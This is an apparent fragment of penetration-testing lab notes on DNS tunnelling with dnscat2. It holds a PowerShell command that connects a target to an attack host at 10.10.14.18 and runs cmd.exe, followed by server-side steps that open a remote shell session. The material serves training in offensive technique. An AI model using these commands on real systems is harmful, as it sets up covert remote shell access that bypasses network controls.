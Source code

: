#### **Establish DNS Tunnel**
```powershell
# Connect to dnscat2 server with encrypted session
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

# Parameters:
# -DNSserver: Attack host IP running dnscat2 server
# -Domain: Domain configured on server
# -PreSharedSecret: Generated secret from server
# -Exec cmd: Execute cmd.exe through tunnel
```

---

## **5. Interacting with DNS Tunnel**

### **Server-Side Session Management**

#### **Confirming Session Establishment**
```
# On dnscat2 server, you should see:
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

#### **Available Commands**
```bash
# List dnscat2 server commands
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo       - Echo test
* help       - Show help
* kill       - Kill session
* quit       - Quit server
* set        - Set variables
* start      - Start service
* stop       - Stop service
* tunnels    - List tunnels
* unset      - Unset variables
* window     - Switch windows
* windows    - List windows
```

#### **Session Interaction**
```bash
# List active sessions
dnscat2> windows

# Connect to specific session
dnscat2> window -i 1

# Expected output:
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

# Now you have direct shell access:
```